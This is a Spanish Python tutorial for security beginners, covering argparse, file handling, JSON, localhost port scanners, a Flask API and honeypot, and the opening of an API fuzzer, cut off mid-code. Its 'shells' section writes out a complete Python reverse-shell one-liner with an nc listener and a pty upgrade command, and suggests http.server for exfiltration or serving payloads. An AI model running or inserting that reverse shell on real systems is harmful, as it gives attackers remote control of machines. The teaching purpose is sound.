<summary><b>🏋️ Ejercicio 5 · Pedir un puerto sin que el programa explote</b></summary>

Pide un puerto al usuario con `input()`. Si no es un número, muestra `Eso no es un número`; si está fuera del rango 1–65535, muestra `Puerto fuera de rango`; si es correcto, muestra `Puerto válido: 22`.

<details>
<summary>👀 Ver solución</summary>

```python
try:
    puerto = int(input("Puerto: "))
    if 1 <= puerto <= 65535:
        print(f"Puerto válido: {puerto}")
    else:
        print("Puerto fuera de rango")
except ValueError:
    print("Eso no es un número")
```

</details>
</details>

## Uso de Argumentos

<p align="center"></p>

Aprender a manejar argumentos en Python es esencial para escribir scripts que acepten valores desde la línea de comandos o que permiten cambiar su comportamiento mediante opciones.


<p align="center"></p>

Así ve Python el comando `python3 escaner.py 10.0.0.5 22`:

<div align="center">

| `sys.argv[0]` | `sys.argv[1]` | `sys.argv[2]` |
|:---:|:---:|:---:|
| `"escaner.py"` | `"10.0.0.5"` | `"22"` |
| nombre del script | primer argumento | segundo argumento *(¡es un `str`!)* |

</div>

**Ver ejemplos completos:**
- [`examples/argv_usage.py`](examples/argv_usage.py) - Uso básico con sys.argv
- [`examples/argparse_usage.py`](examples/argparse_usage.py) - Uso básico con argparse
- [`examples/argparse_usage_advanced.py`](examples/argparse_usage_advanced.py) - Uso avanzado con argparse

Ejemplo básico de uso de argumentos mediante libreria sys: `argv_usage.py`
```python
import sys

print("Número de argumentos:", len(sys.argv))
print("Lista de argumentos:", sys.argv)
```

<details>
<summary>Ver resultado</summary>

```text
python3 argv_usage.py uno dos tres
Número de argumentos: 4
Lista de argumentos: ['argv_usage.py', 'uno', 'dos', 'tres']
```

</details>

Ejemplo usando libreria argparse: `argparse_usage.py` (más versátil)
```python
import argparse

parser = argparse.ArgumentParser(description="Ejemplo básico de argparse.")
parser.add_argument("--nombre", required=True, help="Tu nombre")
parser.add_argument("--edad", type=int, help="Tu edad")

args = parser.parse_args()

if args.edad is not None:
    print(f"Hola {args.nombre}, tienes {args.edad} años.")
else:
    print(f"Hola {args.nombre}.")
```

<details>
<summary>Ver resultado</summary>

```text
python3 argparse_usage.py --nombre Ana --edad 30
Hola Ana, tienes 30 años.
```

</details>

## Manejo de archivos

<p align="center"></p>

Python permite trabajar fácilmente con archivos para leer, escribir y modificar datos.

### Lectura, escritura, append

> [!TIP]
> **🎮 Mini-reto 11:** quieres añadir una línea a `eventos.log` sin borrar lo anterior. ¿Usas el modo `"w"` o `"a"`?
>
> <details><summary>🔓 Respuesta</summary>
>
> El modo `"a"` (*append*). El modo `"w"` sobrescribiría todo el archivo.
>
> </details>

Al abrir un archivo con la función `open()`, se debe especificar si se desea abrir para solo-lectura (sin alterar el contenido), para escritura (se desea alterar su contenido) o en modo append (solo para añadir datos al final del archivo). Es muy importante definir el tipo de operación y **cerrar el archivo** al terminar de usarlo.

> [!CAUTION]
> El modo `'w'` **borra el contenido anterior** del archivo sin preguntar. Si solo quieres añadir líneas, usa `'a'`.


<p align="center"></p>

**Modos de apertura:**
- `'r'`: Lectura (por defecto)
- `'w'`: Escritura (sobrescribe)
- `'a'`: Append (añadir al final)
- `'r+'`: Lectura y escritura
- `'b'`: Modo binario (ej: `'rb'`, `'wb'`)

Ejemplo: Escribir en un archivo
```python
# Crear y escribir en un archivo (modo 'w' - write)
archivo = open("ejemplo.txt", "w")
archivo.write("Hola Mundo\n")
archivo.write("Esta es la segunda línea\n")
archivo.close()
```

### Métodos de archivo

| Función o método | Qué hace |
|---|---|
| `open(nombre, modo)` | Función que abre un archivo y devuelve un objeto archivo |
| `archivo.write(texto)` | Escribe una cadena |
| `archivo.read()` | Lee todo el contenido |
| `archivo.readline()` | Lee una línea |
| `archivo.readlines()` | Devuelve una lista con todas las líneas |
| `archivo.close()` | Cierra el archivo (con `with` no hace falta) |

---

### Usando with (recomendado)

El uso de `with` es la forma recomendada para trabajar con archivos porque se ocupa de cerrar automáticamente el archivo al finalizar.

<table>
<tr><th>😬 Sin <code>with</code></th><th>😎 Con <code>with</code></th></tr>
<tr>
<td>

```python
f = open("log.txt", "r")
datos = f.read()
f.close()   # ¡Si hay un error antes,
            # el archivo queda abierto!
```

</td>
<td>

```python
with open("log.txt", "r") as f:
    datos = f.read()
# Se cierra solo, incluso si hay error
```

</td>
</tr>
</table>

Ejemplo: with para escribir
```python
# Abre el archivo en modo append
with open("ejemplo.txt", "a") as file:
    # Añade una linea al final del archivo
    file.write("Nueva linea al final del archivo.\n")
# El archivo se cierra automáticamente
```

Ejemplo: with para leer
```python
# Leer archivo completo
with open("ejemplo.txt", "r") as archivo:
    contenido = archivo.read()
    print(contenido)
```

Ejemplo: Copiar un archivo
```python
# Copiar contenido de un archivo a otro
with open("original.txt", "r") as origen:
    with open("copia.txt", "w") as destino:
        for linea in origen:
            destino.write(linea)
print("Archivo copiado exitosamente")
```

### Recorriendo líneas

Ejemplo: Procesar archivo línea por línea y buscar una palabra
```python
palabra_buscar = "Python"

with open("documento.txt", "r") as archivo:
    for numero_linea, linea in enumerate(archivo, 1):
        if palabra_buscar in linea:
            print(f"Línea {numero_linea}: {linea.strip()}")
```

## Ejemplos prácticos de Python para hackers

<p align="center"></p>

En esta sección se presentan algunos ejemplos sencillos de programación en Python para programadores noveles. La idea de esta sección es leer y comprender el código de cada uno de los ejemplos, que están incluidos en el directorio  [`examples/`](examples/) de este repositorio y ejecutarlos para ver su comportamiento.

_Para su completa funcionalidad es recomendable instalar un entorno virtual de Python como se muestra en siguiente ejemplo, e instalar los requerimientos mediante `pip`._

```bash
git clone https://github.com/yadox666/Python3_From_0_to_Hacker
cd Python3_From_0_to_Hacker
cd examples

python3 -m venv venv
source venv/bin/activate
(venv) $ pip install -r requirements.txt
```

### Uso de estructuras, JSON y archivos

_JSON (JavaScript Object Notation) es un formato muy similar a los diccionarios de Python y se usa mucho para intercambiar datos entre aplicaciones o funciones._

**Ver ejemplos completos:**
- [`examples/json_from_dict.py`](examples/json_from_dict.py) - Guardar diccionario como JSON
- [`examples/json_file_to_dict.py`](examples/json_file_to_dict.py) - Leer archivo JSON a diccionario
- [`examples/csv_process.py`](examples/csv_process.py) - Procesar archivos CSV

#### 1. Ejemplo de manejo de archivos JSON. Guardar diccionario como json `json_from_dict.py`
---

Este script define un diccionario con información sobre puertos comunes en ciberseguridad (como HTTP, FTP o SSH), imprime sus datos en pantalla y luego guarda todo en un archivo .json llamado `puertos_ciberseguridad.json`. Este ejemplo es excelente para aprender cómo estructurar información en Python, cómo recorrerla con bucles, y cómo almacenarla en un formato que se puede compartir y reutilizar fácilmente.

```python
import json  # Módulo para trabajar con archivos JSON

# Diccionario con información sobre puertos y protocolos
datos_ciberseguridad = {
    "puertos": [
        {"nombre": "HTTP", "puerto": 80, "protocolo": "TCP"},
        {"nombre": "HTTPS", "puerto": 443, "protocolo": "TCP"},
        {"nombre": "FTP", "puerto": 21, "protocolo": "TCP"},
        {"nombre": "SSH", "puerto": 22, "protocolo": "TCP"},
        {"nombre": "DNS", "puerto": 53, "protocolo": "UDP"},
        {"nombre": "SMTP", "puerto": 25, "protocolo": "TCP"},
        {"nombre": "POP3", "puerto": 110, "protocolo": "TCP"},
        {"nombre": "IMAP", "puerto": 143, "protocolo": "TCP"},
        {"nombre": "SNMP", "puerto": 161, "protocolo": "UDP"},
    ]
}

# Recorremos los puertos y mostramos su información
for servicio in datos_ciberseguridad["puertos"]:
    print("Nombre:", servicio["nombre"])
    print("Puerto:", servicio["puerto"])
    print("Protocolo:", servicio["protocolo"])
    print("---")

# Guardamos el diccionario como archivo JSON
with open("puertos_ciberseguridad.json", "w") as archivo_json:
    json.dump(datos_ciberseguridad, archivo_json, indent=4)

print("Datos guardados en puertos_ciberseguridad.json")

```

#### 2. Ejemplo de manejo de archivos JSON. Leer archivo json a diccionario `json_file_to_dict.py`
---

Este script abre un archivo llamado `puertos_ciberseguridad.json` (creado por el ejemplo anterior), lo lee y convierte su contenido en un diccionario de Python, lo cual permite acceder y manipular los datos directamente desde el código. Luego, recorre cada entrada del archivo y muestra el nombre del servicio, su número de puerto y el protocolo que usa (TCP o UDP). Es una excelente introducción al manejo de archivos, lectura de datos estructurados y uso de bucles en Python.

```python
import json  # Módulo para trabajar con archivos JSON

# Abrimos el archivo JSON y cargamos su contenido en una variable tipo diccionario
with open("puertos_ciberseguridad.json", "r") as archivo_json:
    datos = json.load(archivo_json)

# Mostramos el contenido completo para ver cómo está estructurado
print("Contenido del archivo:")
print(datos)

print("\nListado de puertos y protocolos:")

# Recorremos la lista de puertos y mostramos sus datos
for servicio in datos["puertos"]:
    print(f"Nombre: {servicio['nombre']}, Puerto: {servicio['puerto']}, Protocolo: {servicio['protocolo']}")
```

#### 3. Ejemplo de guardado de información de nmap en formato json: `nmap_scanner.py`
---

Este script utiliza la herramienta Nmap (a través de su módulo de Python) para escanear los primeros 1024 puertos de una dirección IP local o remota. Detecta si esos puertos están abiertos, qué servicios están corriendo y guarda toda esa información en un archivo .json. Es una introducción muy útil para quienes quieren aprender sobre redes, puertos, servicios y automatización con Python.

**Ver ejemplo completo:** [`examples/nmap_scanner.py`](examples/nmap_scanner.py)

```python
# Requisitos:
# - Tener Nmap instalado en el sistema
# - Instalar el módulo de Python: pip install python-nmap

import nmap  # Librería para controlar Nmap desde Python
import json  # Para guardar resultados como archivo JSON

# Crear el escáner de puertos
scanner = nmap.PortScanner()

# Definir el objetivo y el rango de puertos
objetivo = "127.0.0.1"      # Dirección IP del equipo a escanear (localhost en este caso)
puertos = "1-1024"          # Rango de puertos a revisar

print(f"Escaneando {objetivo} en puertos {puertos}...")
scanner.scan(hosts=objetivo, ports=puertos)  # Ejecuta el escaneo

# Diccionario donde guardaremos los resultados
resultado_escaneo = {}

# Recorremos todos los hosts encontrados (en este caso, solo uno)
for host in scanner.all_hosts():
    resultado_escaneo[host] = {
        "estado": scanner[host].state(),  # online/offline
        "protocolos": {}
    }

    for protocolo in scanner[host].all_protocols():
        resultado_escaneo[host]["protocolos"][protocolo] = {}

        for puerto in scanner[host][protocolo].keys():
            info = scanner[host][protocolo][puerto]
            resultado_escaneo[host]["protocolos"][protocolo][puerto] = {
                "estado": info["state"],
                "nombre": info.get("name"),
                "producto": info.get("product"),
                "version": info.get("version")
            }

# Guardamos los datos en un archivo JSON
archivo_salida = "resultados_escaneo.json"
with open(archivo_salida, "w") as archivo:
    json.dump(resultado_escaneo, archivo, indent=4)

print(f"Resultados guardados en: {archivo_salida}")

```

#### 4. Ejemplo manejo de txt, json y requests: `get_oui_txt.py`
---

Este programa descarga una lista de identificadores de fabricantes de dispositivos de red (OUI) desde el sitio oficial de IEEE, los convierte a un formato más sencillo (JSON), y los guarda localmente. El OUI forma parte de la dirección MAC y sirve para identificar al fabricante de un dispositivo. Este script es útil para aprender sobre manejo de texto, uso de archivos, procesamiento de datos desde internet, y conversión a formatos como JSON.

**Ver ejemplo completo:** [`examples/get_oui_txt.py`](examples/get_oui_txt.py)

```python
# Requiere tener instalada la librería requests: pip install requests

import requests
import json

# URL donde se encuentra el archivo original con los datos OUI
URL_OUI = "https://standards-oui.ieee.org/oui/oui.txt"

# Nombre del archivo de salida en formato JSON
ARCHIVO_SALIDA = "oui_list.json"

# Función que descarga el archivo desde internet
def descargar_oui(url):
    try:
        respuesta = requests.get(url, timeout=30)
        respuesta.raise_for_status()  # Verifica que la descarga sea exitosa
        return respuesta.text
    except requests.RequestException as error:
        print("Error al descargar el archivo:", error)
        return None

# Función que extrae los datos importantes y los convierte a una lista de diccionarios
def analizar_oui(texto):
    datos = []
    lineas = texto.splitlines()

    for linea in lineas:
        if "(base 16)" in linea:
            partes = linea.split("(base 16)")
            oui = partes[0].strip().replace("-", "").upper()   # "A4-C3-F0" → "A4C3F0"
            fabricante = partes[1].strip()
            datos.append({"oui": oui, "organization": fabricante})

    return datos

# Función para guardar los datos como archivo JSON
def guardar_json(datos, nombre_archivo):
    try:
        with open(nombre_archivo, "w") as archivo:
            json.dump(datos, archivo, indent=4)
        print("Datos guardados en:", nombre_archivo)
    except IOError as error:
        print("Error al guardar el archivo:", error)

# Función principal que controla el flujo del programa
def main():
    contenido = descargar_oui(URL_OUI)
    if contenido is None:
        return  # Si hubo error al descargar, detenemos el programa

    datos_oui = analizar_oui(contenido)
    guardar_json(datos_oui, ARCHIVO_SALIDA)

# Ejecutamos el programa principal
if __name__ == "__main__":
    main()
```

#### 5. Ejemplo de Escáner de puertos TCP básico `socket_scanner.py`
---

Este programa explora un rango de puertos TCP en un equipo (por defecto, en 127.0.0.1, es decir, tu propio ordenador) y verifica cuáles están abiertos. Utiliza la función connect_ex() de la librería socket para intentar conectarse a cada puerto. Si la conexión tiene éxito, se considera que el puerto está "abierto". Es una forma práctica y segura de introducir conceptos como puertos, servicios y escaneo de red.

**Ver ejemplo completo:** [`examples/socket_scanner.py`](examples/socket_scanner.py)

```python
import socket  # Módulo para trabajar con conexiones de red

# Dirección IP del equipo a escanear (localhost por defecto)
objetivo = "127.0.0.1"

# Rango de puertos a probar (puedes reducirlo para pruebas rápidas)
puertos = range(1, 1025)  # Del 1 al 1024 (puertos comunes)

# Mostrar puertos cerrados (útil para depurar)
debug = False

# Función que escanea los puertos del objetivo
def escanear_puertos(host, rango_puertos):
    print(f"Escaneando {host}...")

    for puerto in rango_puertos:
        # Creamos un socket tipo TCP
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(1)  # Máximo 1 segundo por intento

        # Intentamos conectarnos al puerto
        resultado = s.connect_ex((host, puerto))

        if resultado == 0:
            print(f"Puerto {puerto}: ABIERTO")
        elif debug:
            print(f"Puerto {puerto}: CERRADO")

        s.close()  # Cerramos el socket para liberar recursos

# Ejecutamos el escaneo
escanear_puertos(objetivo, puertos)
```

### Uso de hilos (threads)

#### 1. Ejemplo de Versión usando multihilo: `socket_scanner_multithreaded.py`
---

Este script explora puertos en un equipo (por ejemplo, 127.0.0.1) e identifica cuáles están abiertos, igual que un escáner clásico. Pero aquí se introduce el concepto de multihilo: el programa lanza múltiples tareas al mismo tiempo (hasta 100 en paralelo), lo que hace que el escaneo sea mucho más rápido que si se hiciera de uno en uno. En Python, esto se logra con ThreadPoolExecutor, que gestiona un grupo de hilos para ejecutar funciones concurrentemente.

**Ver ejemplo completo:** [`examples/socket_scanner_multithreaded.py`](examples/socket_scanner_multithreaded.py)

```python
import socket
from concurrent.futures import ThreadPoolExecutor, as_completed

# Dirección del objetivo (localhost en este caso)
objetivo = "127.0.0.1"

# Rango de puertos a escanear (puedes reducirlo para pruebas)
rango_puertos = range(1, 1025)  # Puertos comunes: 1 al 1024

# Función que intenta conectarse a un puerto
def escanear_puerto(puerto):
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
        sock.settimeout(0.5)  # Tiempo máximo de espera
        if sock.connect_ex((objetivo, puerto)) == 0:
            return puerto, "ABIERTO"
        return puerto, "CERRADO"

# Ejecutamos el escaneo en paralelo usando hilos
def escaneo_con_hilos():
    print(f"Escaneando {objetivo} con múltiples hilos...")

    # Creamos un "pool" de 100 hilos
    with ThreadPoolExecutor(max_workers=100) as ejecutor:
        # Enviamos tareas al pool: un hilo por puerto
        tareas = {ejecutor.submit(escanear_puerto, puerto): puerto for puerto in rango_puertos}

        # Imprimimos los resultados a medida que terminan
        for tarea in as_completed(tareas):
            puerto, estado = tarea.result()
            if estado == "ABIERTO":
                print(f"Puerto TCP {puerto}: {estado}")

# Llamamos a la función principal
if __name__ == "__main__":
    escaneo_con_hilos()
```

### Expresiones regulares

#### 1. Ejemplo de expresiones regulares básicas: `scrap.py`
---

Este pequeño programa toma una URL como argumento, descarga el contenido HTML del sitio web, y usa una expresión regular para buscar texto dentro de etiquetas <div> que parezca un nombre de dominio (como ejemplo.com). El patrón busca secuencias de letras, números, puntos o guiones. Luego imprime los resultados ordenados y sin duplicados. Es útil como introducción a tareas de web scraping y manejo de expresiones regulares en Python.

**Ver ejemplo completo:** [`examples/scrap.py`](examples/scrap.py)

```python
# Uso: python scrap.py http://www.ewhois.com/ebay.com/
# Este script extrae cadenas de texto específicas de un sitio web usando expresiones regulares.

import sys
import re
import requests

def main():
    if len(sys.argv) < 2:
        print("Uso: python scrap.py <URL>")
        return

    site = sys.argv[1]
    try:
        response = requests.get(site, timeout=10)
        html = response.text
    except requests.RequestException as e:
        print(f"Error al acceder al sitio: {e}")
        return

    # Buscar patrones tipo dominio dentro de <div> como "ejemplo.com"
    resultados = re.findall(r"<div>([a-z0-9.\-]+?)\s", html, re.IGNORECASE)

    for item in sorted(set(resultados)):
        print(item)

if __name__ == "__main__":
    main()

```

### Usar Python para lanzar consolas shell y servidores

#### 1. Ejemplo de Shell interactiva
---

Esto se utiliza comúnmente cuando se obtiene un shell limitado (por ejemplo, desde un shell reverso o una sesión SSH sin soporte completo de terminal) y se desea hacerlo interactivo. Un shell interactivo admite funciones como:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

- **Control de tarea**: Usar `Ctrl+C`, `Ctrl+Z`, etc.
- **Teclas de flechas**: se pueded navegar con las flechas.
- **Tab completion**: funciona autocompletado con `Tab`.

#### 2. Ejemplo de Shell reversa
---

Una shell reversa permite que un sistema objetivo se conecte de vuelta a un atacante/auditor, proporcionando acceso remoto. Se usa en:

- Auditorías de seguridad legítimas
- Red Team exercises autorizados
- Investigación de seguridad

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("TU_IP",TU_PUERTO));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])'
# Reemplaza TU_IP: Dirección IP del servidor que escucha
# Reemplaza TU_PUERTO: Puerto del servidor (ejemplo: 4444)
# Escuchar en el puerto 4444 en mi ordenador remoto
# nc -lvnp 4444
```

#### 3. Ejemplo de Servidor Web básico
---

Para un hacker, el uso de comandos como python3 -m http.server 8080 (o su equivalente en Python 2) permite levantar rápidamente un servidor web local para compartir archivos, ejecutar pruebas de red o simular servicios HTTP durante ejercicios de pentesting o análisis forense. Por ejemplo, puede usarse para exfiltrar datos en un entorno controlado, probar la descarga de herramientas desde otra máquina en la red, o servir cargas útiles (payloads) durante una auditoría de seguridad. Su simplicidad y portabilidad lo convierten en una herramienta útil y versátil en entornos de laboratorio o situaciones de respuesta rápida.

```bash
# Para Python 3
python3 -m http.server 8080
```

### Compilación en Python

#### 1. Ejemplo para Compilar aplicación de python
---

Este ejemplo explica cómo convertir scripts de Python en archivos ejecutables, útil para distribuir herramientas y utilidades sin requerir que Python esté instalado, algo que se suele hacer mucho para los exploits escritos en Python.

> [!NOTE]
> PyInstaller genera ejecutables **para el sistema en el que lo ejecutas**: en Linux obtienes un binario de Linux y en Windows un `.exe`. Para obtener un `.exe` tienes que compilar en Windows (o en una máquina virtual con Windows).

```bash
# Instalar PyInstaller
pip3 install pyinstaller

# Si necesitas librerías específicas de Windows
pip install pywin32

# Compilar a ejecutable
cd examples

# Compilar
pyinstaller --onefile api_fuzzer.py
# El ejecutable estará en: dist/api_fuzzer
```

### Aplicaciones Web, pentesting web y APIs

**Ver ejemplos completos:**
- [`examples/check-url.py`](examples/check-url.py) - Verificador de estado HTTP
- [`examples/api_users.py`](examples/api_users.py) - API REST simple (HTTP)
- [`examples/api_users_443.py`](examples/api_users_443.py) - API REST con HTTPS
- [`examples/api_honeypot.py`](examples/api_honeypot.py) - Honeypot básico
- [`examples/api_honeypot_with_geolocation_data.py`](examples/api_honeypot_with_geolocation_data.py) - Honeypot con geolocalización
- [`examples/api_fuzzer.py`](examples/api_fuzzer.py) - Fuzzer para descubrir endpoints
- [`examples/crawler_spider.py`](examples/crawler_spider.py) - Web crawler/araña

#### 1. Ejemplo: Usando requests para ver el estado de una página web `check-url.py`
---

Este programa permite comprobar si una página web responde correctamente cuando intentamos visitarla. El usuario introduce una URL, y el script envía una petición al sitio usando la librería requests. Según la respuesta del servidor, el programa muestra un código de estado (por ejemplo, 200, 404, 503) junto con una breve explicación. Es un ejercicio útil para aprender cómo funcionan las solicitudes HTTP, cómo manejar errores y cómo trabajar con argumentos desde la línea de comandos en Python.

> [!NOTE]
> El siguiente fragmento muestra la lógica principal. El script completo añade títulos e iconos para que la salida sea más fácil de leer.

```python
import requests
import argparse

# Configuramos los argumentos que el usuario puede pasarle al script
parser = argparse.ArgumentParser(description="Comprobar el estado HTTP de una URL.")
parser.add_argument("--url", type=str, help="La URL a comprobar.")
args = parser.parse_args()

# Aseguramos que la URL empiece con http:// o https://
def ensure_https(url):
    if not url.startswith("http://") and not url.startswith("https://"):
        return "https://" + url
    return url

# Realiza la petición HTTP y devuelve el código de estado
def check_endpoint(url):
    try:
        response = requests.get(url, timeout=10)  # timeout evita que se quede colgado
        return response.status_code
    except requests.Timeout:
        return 0     # Si tarda demasiado
    except requests.RequestException:
        return 99    # Cualquier otro error

# Traducción simple de algunos códigos de estado comunes
def translate_status_code(code):
    translations = {
        0:  "Tiempo de espera agotado",
        99: "Error",
        200: "OK",
        301: "Movido permanentemente",
        302: "Encontrado",
        400: "Solicitud incorrecta",
        401: "No autorizado",
        403: "Prohibido",
        404: "No encontrado",
        500: "Error interno del servidor",
        503: "Servicio no disponible"
    }
    return translations.get(code, "Estado desconocido")

# Código principal del script
if args.url:
    url = ensure_https(args.url)  # Normalizamos la URL
    status_code = check_endpoint(url)
    status_text = translate_status_code(status_code)

    print(f"{url} - {status_code} ({status_text})")
else:
    print("Error: Debes especificar una URL con --url")
```

#### 2. Ejemplo: Crear una API simple mediante Flask `api_users.py` y `api_users_443.py` (SSL en puerto 443)
---

Este programa crea un pequeño servidor web usando Flask, una librería muy popular en Python para construir APIs. La versión HTTP responde en `/users`; la versión HTTPS utiliza `/api/users`. Si se intenta acceder a cualquier otra ruta, el servidor devuelve un error `404`. Es una forma sencilla de entender rutas, respuestas HTTP y datos JSON.

**Ver ejemplos completos:**
- [`examples/api_users.py`](examples/api_users.py) - API simple en HTTP (puerto 8000)
- [`examples/api_users_443.py`](examples/api_users_443.py) - API con HTTPS (puerto 443)

| Script | URL para probar | Cómo ejecutarlo |
|---|---|---|
| `api_users.py` | `http://127.0.0.1:8000/users` | `python3 api_users.py` |
| `api_users_443.py` | `https://127.0.0.1/api/users` | `sudo python3 api_users_443.py` |

La versión HTTPS necesita los archivos `cert.pem` y `key.pem` y utiliza un certificado autofirmado. Por eso `curl` necesita la opción `-k` en este laboratorio.

```bash
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

```python
# Requiere instalación previa de Flask: pip install flask
from flask import Flask, jsonify  # Importamos las funciones necesarias

# Creamos una aplicación Flask
app = Flask(__name__)

# Datos falsos de ejemplo (como si fueran sacados de una base de datos)
usuarios_falsos = [
    {"id": 1, "nombre": "Alicia García", "email": "alicia@ejemplo.com"},
    {"id": 2, "nombre": "Roberto Martínez", "email": "roberto@ejemplo.com"},
    {"id": 3, "nombre": "Carlos López", "email": "carlos@ejemplo.com"},
]

# Ruta principal para obtener la lista de usuarios
@app.route("/users", methods=["GET"])
def obtener_usuarios():
    return jsonify(usuarios_falsos), 200  # Convertimos la lista a JSON y devolvemos un código 200 (OK)

# Ruta para cualquier otro camino no definido → devuelve error 404
@app.route("/", defaults={"path": ""})
@app.route("/<path:path>")
def ruta_no_encontrada(path):
    return jsonify({"error": "Ruta no encontrada"}), 404

# Ejecutamos la aplicación si este archivo es el principal
if __name__ == "__main__":
    app.run(host="127.0.0.1", port=8000)  # El servidor se inicia en localhost:8000
```

#### 3. Ejemplo: Crear una API honeypot `api_honeypot.py` y `api_honeypot_with_geolocation_data.py`
---

Este programa es un honeypot web básico: un servidor que aparenta ser una API real, pero en realidad registra cada interacción que recibe. Cualquier acceso a `/api/` queda registrado con la dirección IP, el método, la ruta y los datos enviados. No guardamos cookies ni cabeceras de autorización, porque podrían contener credenciales. El servidor usa HTTPS con un certificado de laboratorio.

**Ver ejemplos completos:**
- [`examples/api_honeypot.py`](examples/api_honeypot.py) - Honeypot básico
- [`examples/api_honeypot_with_geolocation_data.py`](examples/api_honeypot_with_geolocation_data.py) - Honeypot con geolocalización

| Script | Archivo de salida | Diferencia |
|---|---|---|
| `api_honeypot.py` | `registro_honeypot.json` | Registra los datos básicos de la petición |
| `api_honeypot_with_geolocation_data.py` | `honeypot_log.json` | Consulta además la ubicación aproximada de la IP |

> [!WARNING]
> El ejemplo con geolocalización envía la IP a un servicio externo (`ip-api.com`). Úsalo solo en el laboratorio y nunca con datos reales sin revisar antes las obligaciones de privacidad.

```python
# Para usar HTTPS necesitas certificados:
# Genera los archivos con este comando antes de ejecutar:
# openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes

from flask import Flask, request, jsonify
import json
import os
from datetime import datetime, timezone

app = Flask(__name__)  # Creamos la app Flask

ARCHIVO_LOG = "registro_honeypot.json"  # Nombre del archivo donde guardamos las visitas

# Función para guardar cada petición que llega
def guardar_log(data):
    if not os.path.exists(ARCHIVO_LOG):
        with open(ARCHIVO_LOG, "w") as f:
            json.dump([], f)  # Si no existe, creamos una lista vacía

    with open(ARCHIVO_LOG, "r") as f:
        logs = json.load(f)  # Leemos los logs existentes

    logs.append(data)  # Agregamos la nueva entrada

    with open(ARCHIVO_LOG, "w") as f:
        json.dump(logs, f, indent=4)  # Guardamos todo actualizado

# Esta función se ejecuta automáticamente antes de cada petición
@app.before_request
def registrar_peticion():
    json_recibido = request.get_json(silent=True)

    datos = {
        "momento": datetime.now(timezone.utc).isoformat(),
        "ip_origen": request.remote_addr,
        "user_agent": request.headers.get("User-Agent"),
        "metodo": request.method,
        "ruta": request.path,
        # Guardamos los nombres de los campos, nunca contraseñas o tokens.
        "parametros_url": list(request.args.keys()),
        "campos_formulario": list(request.form.keys()),
        "campos_json": (
            list(json_recibido.keys()) if isinstance(json_recibido, dict) else []
        ),
    }

    guardar_log(datos)  # Guardamos la información

# Ruta simulada de API: responde 404 a todo
@app.route("/api/", defaults={"path": ""})
@app.route("/api/<path:path>")
def todo_no_encontrado(path):
    return jsonify({"error": "Ruta no válida"}), 404

# Ejecutamos la app con soporte SSL
if __name__ == "__main__":
    app.run(
        host="0.0.0.0",
        port=443,
        ssl_context=("cert.pem", "key.pem"),
        threaded=False,  # Evita escrituras simultáneas en el JSON del laboratorio
    )
```

> [!CAUTION]
> Este guardado en JSON está pensado para aprender y para recibir pocas peticiones. Una aplicación real usaría una base de datos o un sistema de logs preparado para accesos simultáneos.

#### 4. Crear un fuzzer simple para pentesting API `api_fuzzer.py`
---

Este script intenta encontrar rutas válidas en una API enviando solicitudes a una lista de posibles endpoints, usando métodos HTTP como GET y POST. Por ejemplo, prueba si existen rutas como `/login`, `/user` o `/admin`. Muestra respuestas exitosas, redirecciones y rutas protegidas con `401` o `403`.

**Ver ejemplo completo:** [`examples/api_fuzzer.py`](examples/api_fuzzer.py)

```python
# Requiere: pip install requests
import requests

# URL base de la API que vamos a "fuzzear"
url_base = "https://127.0.0.1/api"  # Cambia esto por la URL real de tu API

